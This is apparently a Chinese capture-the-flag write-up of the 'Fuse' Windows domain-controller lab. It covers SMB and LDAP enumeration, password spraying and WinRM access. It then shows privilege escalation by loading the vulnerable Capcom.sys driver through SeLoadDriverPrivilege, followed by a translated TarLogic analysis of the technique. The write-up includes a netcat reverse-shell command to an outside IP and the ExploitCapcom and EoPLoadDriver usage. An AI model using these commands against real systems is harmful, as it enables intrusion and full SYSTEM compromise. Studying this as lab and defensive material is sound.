

# 域渗透实战之fuse - 先知社区

域渗透实战之fuse

- - -

# 信息收集

## 端口扫描

使用nmap进行端口探测，发现存在大量端口开放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173401-988147b6-8f63-1.png)

然后对其详细版本进行探测，发现是一个windows域控制器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173413-9f94e33c-8f63-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173420-a39cd570-8f63-1.png)

## SMB未授权

使用crackmapexec确认操作系统和域

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173429-a93b4660-8f63-1.png)

接着使用smbmap去尝试未授权访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173437-adda0f12-8f63-1.png)

可以连接rpcclient，但无权访问任何内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173445-b287583a-8f63-1.png)

## 网站

接着绑定host，访问网站。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173455-b878c850-8f63-1.png)

发现存在大量文件，包含用户名。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173503-bd5ae25e-8f63-1.png)

## 目录暴力破解

接着对网站进行爆破。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173511-c2446b96-8f63-1.png)

未发现有用的文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173518-c60f6956-8f63-1.png)

## LDAP

使用ladpsearch进行搜索

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173526-cad73ba8-8f63-1.png)

发现没有权限查不到任何东西

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173533-cef1a232-8f63-1.png)

## 尝试登录

使用smbclient进行连接尝试，未发现有用户可以利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173551-d9eb309a-8f63-1.png)

## 更改SMB密码

将密码更改为Fabricorp02

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173558-ddeb28b2-8f63-1.png)

# 漏洞利用

## 用户爆破

cewl [http://fuse.fabricorp.local/papercut/logs/html/index.htm](http://fuse.fabricorp.local/papercut/logs/html/index.htm) --with-numbers > wordlist  
爬出所有域用户，然后进行密码爆破。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173640-f750fab6-8f63-1.png)

## 枚举

编写脚本进行枚举，发现无法利用。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173606-e29e67d4-8f63-1.png)

## SMB访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173654-ff9276b4-8f63-1.png)

获取大量域用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173702-04351334-8f64-1.png)

## 查找用户

使用smbmap去检测可利用的用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173724-1182af38-8f64-1.png)

使用crackpexec去检测可利用的用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173731-15ba4ba6-8f64-1.png)

# Priv: svc-print –> 系统

使用SMB进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173740-1ad27aa0-8f64-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173746-1e8e6596-8f64-1.png)

## 获取shell

使用WinRM来获取shell。  
并发现user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173753-227dba80-8f64-1.png)

当我查看 svc-print 的权限时，有一个权限SeLoadDriverPrivilege：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173800-269f7a90-8f64-1.png)

## Google搜索

谷歌搜索可以SeLoadDriverPrivilege找到TarLogic 的这篇文章。如果我可以加载驱动程序，我就可以加载易受攻击的驱动程序，然后利用它。他们使用易受攻击的 Capcom 驱动程序作为示例。我将在此处获取此易受攻击的驱动程序的副本。

## 工具编译

使用vscode导入[https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173813-2e56ce6e-8f64-1.png)

然后进行编译文件为exe。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173821-3318cfba-8f64-1.png)

上传工具  
接着进行工具上传。  
.\\ExploitCapcom.exe System\\CurrentControlSet\\dfserv C:\\ProgramData\\Capcom.sys

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173830-38be38b0-8f64-1.png)

## 命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173841-3f178680-8f64-1.png)

成功执行了whomai命令  
.\\ExploitCapcom.exe LOAD C:\\ProgramData\\Capcom.sys .\\ExploitCapcom.exe EXPLOIT whoami

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173850-445134fc-8f64-1.png)

## 上传nc反弹shell

接着上传nc。  
.\\ExploitCapcom.exe EXPLOIT "nc.exe 10.10.14.31 4444 -e cmd.exe"

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173858-4997ccdc-8f64-1.png)

然后监听4444端口，成功反弹shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173906-4e1d1550-8f64-1.png)

## 获取root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130173914-53036f88-8f64-1.png)

# 总结

# 滥用 SeLoadDriverPrivilege 进行权限提升

原文链接：[https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/](https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/)

## 0x01 – 前言

在 Windows 操作系统中，众所周知，向没有管理权限的用户帐户分配某些权限可能会导致本地权限提升攻击。尽管微软的文档对此非常清楚，但在几次渗透测试中，我们发现分配给普通用户的权限分配策略，我们已经能够利用这些策略来完全控制系统。  
今天，我们将分析与“加载和卸载设备驱动程序”策略分配相关的影响，该策略指定允许动态加载设备驱动程序的用户。在非特权用户的上下文中激活此策略意味着由于可能在内核空间中执行代码而存在重大风险。  
尽管这是一种众所周知的技术，但在后利用和权限升级工具中找不到它，并且也没有执行自动利用的工具。

## 0x02 – SeLoadDriverPrivilege 和访问令牌

“加载和卸载设备驱动程序”策略可从本地组策略编辑器 (gpedit.msc) 访问，路径如下：“计算机配置 -> Windows 设置 -> 安全设置 -> 用户权限分配”  
鉴于其含义，该策略的默认值仅包括“管理员”和“打印操作员”组。根据文档，下表显示了默认值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174052-8d08dae2-8f64-1.png)

有效的默认策略值  
注意：打印操作员组肉眼看来似乎无害，但它能够在域控制器中加载设备驱动程序以及管理活动目录中的打印机类型对象。此外，该组能够在域控制器中对自身进行身份验证，因此验证该组中用户的成员身份特别有意义。  
此策略的分配允许激活用户访问令牌中的“SeLoadDriverPrivilege”，从而允许加载设备控制器。  
访问令牌是一种描述进程或线程的安全上下文的对象，并分配给系统中创建的所有进程。除其他外，它指定标识用户帐户的 SID（安全标识符）、链接到其所属的不同组的 SID，以及分配给用户或用户所属组的权限列表。属于。此信息在操作系统的访问控制模型中至关重要，并且每次您尝试访问系统中的任何安全对象时都会验证此信息。  
为了理解利用过程（稍后会解释），有必要考虑到从Windows Vista开始，操作系统实现了一种称为“用户帐户控制”的权限分离技术，即UAC。总而言之，这种安全措施基于“最小权限原则”，通过使用“受限访问令牌”来限制用户某些进程的权限，从而省略了分配给用户的某些权限。  
考虑到这些信息，我们将分析利用此权限从没有管理权限的用户帐户加载驱动程序的过程

## 0x03 – Seloaddriver特权利用程序

获取具有不受限制的访问令牌的 shell  
为了获得不受限制的访问令牌，我们有以下选择：  
● 利用“以管理员身份运行”功能来提升用户启动的任何进程。在非管理员用户的上下文中使用这些机制将允许不受限制地获取令牌。  
● 使用提升 工具。该工具允许启动提升的进程。  
提升.exe -c cmd.exe  
● 编译一个包含清单的应用程序，以指示使用不受限制的令牌，这将在启动时触发 UAC 提示。  
● 使用一些技术来绕过 UAC。  
SeLoadDriverPrivilege权限激活  
一旦我们有了不受限制的令牌，我们就可以注意到，默认情况下，SeLoadDriverPrivilege 在访问令牌的用户权限列表中可用，但默认情况下处于禁用状态。要使用该特权，必须显式激活它。为了实现这一点，我们必须执行以下步骤。首先，我们需要使用LookupPrivilegeValue() API 获取权限的引用。之后，可以使用函数AdjustTokenPriviliges()来激活权限。示例代码：

```plain
TOKEN_PRIVILEGES tp;
LUID luid;

if (!LookupPrivilegeValue(
  NULL,            // lookup privilege on local system
  lpszPrivilege,   // privilege to lookup 
  &luid))        // receives LUID of privilege
{
  printf("LookupPrivilegeValue error: %un", GetLastError());
  return FALSE;
}

tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
  tp.Privileges[0].Attributes = 0;

// Enable the privilege or disable all privileges.

if (!AdjustTokenPrivileges(
  hToken,
  FALSE,
  &tp,
  sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL,
  (PDWORD)NULL))
{
  printf("AdjustTokenPrivileges error: %un", GetLastError());
  return FALSE;
}
```

### 驱动负载

从用户空间加载文件驱动程序可以使用Windows NTLoadDriver API来完成，其格式详细如下：

```plain
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

此函数将DriverServiceName作为唯一的输入参数，它是一个指向 UNICODE 格式的字符串的指针，该字符串指定定义驱动程序配置的注册表项：  
注册表机器系统当前控制设置服务驱动程序名称  
在DriverName键下可以定义不同的配置参数。最相关的是：  
● ImagePath： REG\_EXPAND\_SZ 类型值，指定驱动程序路径。在这种情况下，路径应该是非特权用户具有修改权限的目录。  
● Type：REG\_WORD 类型的值，其中指示服务的类型。出于我们的目的，该值应定义为 SERVICE\_KERNEL\_DRIVER (0x00000001)。  
需要记住的一件事是，传递给 NTLoadDriver 的注册表项默认位于 HKLM 项 (HKEY\_LOCAL\_MACHINE) 下，该项仅定义管理员组的修改权限。尽管文档指出使用注册表项“Registry Machine System CurrentControlSet Services”，但 NTLoadDriver API 并不限制 HKCU (HKEY\_CURRENT\_USER) 项下的路径，非特权用户可以修改该路径。  
考虑到这种情况，在调用NTLoadDriver API 时，可以使用 HKCU (HKEY\_CURRENT\_USER) 下的注册表项，指定以下格式的路径：  
注册表用户{NON\_PRIVILEGED\_USER\_SID}  
可以使用GetTokenInformation API以编程方式获取帐户的 SID 值，这允许用户获取其访问令牌信息。或者，可以使用“ whoami /all ”命令或通过以下 PowerShell 指令查询 SID ：

```plain
(New-Object System.Security.Principal.NTAccount("NOMBRE_CUENTA_USUARIO")).Translate([System.Security.Principal.SecurityIdentifier]).value

# En el contexto de un usuario del dominio.
Get-ADUser -Identity ' NOMBRE_CUENTA_USUARIO ' | select SID
```

## 0x04 – 概念证明

为了滥用驱动程序加载权限，我们创建了一个 PoC 应用程序来自动执行上述过程。  
起点是非特权用户 ( test ) ，已为其分配了“加载和卸载设备驱动程序”权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174225-c482bf9c-8f64-1.png)

加载和卸载分配给非特权用户的驱动程序策略  
如前所述，最初将为用户分配一个受限令牌，其中不包括SeLoadDriverPrivilege权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174232-c92e6316-8f64-1.png)

分配给用户测试的权限的初始验证（受限令牌）  
如果您有交互式会话，则可以通过接受 UAC 提示来执行提升令牌提升，否则您应该使用一些UAC 绕过技术。  
在这种特定情况下，我们假设系统中有一个交互式会话。通过使用elevate工具，在接受 UAC 提示后，可以生成具有关联的不受限制令牌的新终端。  
正如您所看到的，权限“ SeLoadDriverPrivilege ”存在于用户的访问令牌中，但它已被禁用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174246-d1122d7e-8f64-1.png)

在非特权帐户中获取不受限制的令牌  
此时，我们可以使用 PoC 工具 EOPLOADDRIVER（源代码可在[https://github.com/TarlogicSecurity/EoPLoadDriver/获得），这将使我们能够：](https://github.com/TarlogicSecurity/EoPLoadDriver/%E8%8E%B7%E5%BE%97%EF%BC%89%EF%BC%8C%E8%BF%99%E5%B0%86%E4%BD%BF%E6%88%91%E4%BB%AC%E8%83%BD%E5%A4%9F%EF%BC%9A)  
● 启用SeLoadDriverPrivilege权限  
● 在 HKEY\_CURRENT\_USER (HKCU) 下创建注册表项并设置驱动程序配置设置  
● 执行NTLoadDriver函数，指定先前创建的注册表项  
可以调用该工具，如下所示：  
EOPLOADDRIVER.exe 注册表键 DriverImagePath  
其中RegistryKey参数指定在HKCU下创建的注册表项（“Registry User{NON\_PRIVILEGED\_USER\_SID}”），而DriverImagePath指定驱动程序在文件系统中的位置。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174258-d81e4b5c-8f64-1.png)

EOPLOADDRIVER 工具执行  
可以使用 DriverView 工具验证驱动程序是否已成功加载。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174309-ded5e9d2-8f64-1.png)

使用 DriverView 验证驱动程序负载

## 0x05 – Seloaddriver特权漏洞

一旦我们能够从非特权用户帐户加载驱动程序，下一步就是识别具有允许提升权限的漏洞的签名驱动程序。  
在本例中，我们选择了驱动程序 Capcom.sys（SHA1：c1d5cf8c43e7679b782630e93f5e6420ca1749a7），它具有允许从用户空间中定义的函数在内核空间中执行代码的“功能”。  
该驱动程序具有不同的公开漏洞：  
● 来自 Tandasat 的 ExploitCapcom – [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) – 此漏洞允许您以 SYSTEM 身份获取 Shell  
● Zerosum0x0 的 PuppetStrings – [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) – 允许隐藏正在运行的进程  
按照上述过程，我们需要生成一个提升的终端以获得不受限制的令牌。之后，我们可以执行PoC工具（EOPLOADDRIVER）来启用SeLoadDriverPrivilege并加载所选驱动程序，如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174324-e819a880-8f64-1.png)

提升命令提示符并执行 EOPLOADDRIVER  
加载驱动程序后，就可以运行任何所需的漏洞利用。下图显示了利用Tandasat的漏洞“ExploitCapcom”获取SYSTEM终端。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130174336-ef515f12-8f64-1.png)  
Tandasat 的 ExploitCapcom 执行以 SYSTEM 身份提升权限

## 0x06 – 结论

我们已经能够验证“加载和卸载设备驱动程序”权限的分配如何实现内核中驱动程序的动态加载。尽管默认情况下 Windows 禁止未签名的驱动程序，但已在签名的驱动程序中发现了多个弱点，这些弱点可被利用来完全破坏系统。  
所有测试均在 Windows 10 Version 1708 环境中进行。  
从 Windows 10 版本 1803 开始，NTLoadDriver 似乎禁止引用 HKEY\_CURRENT\_USER 下的注册表项。
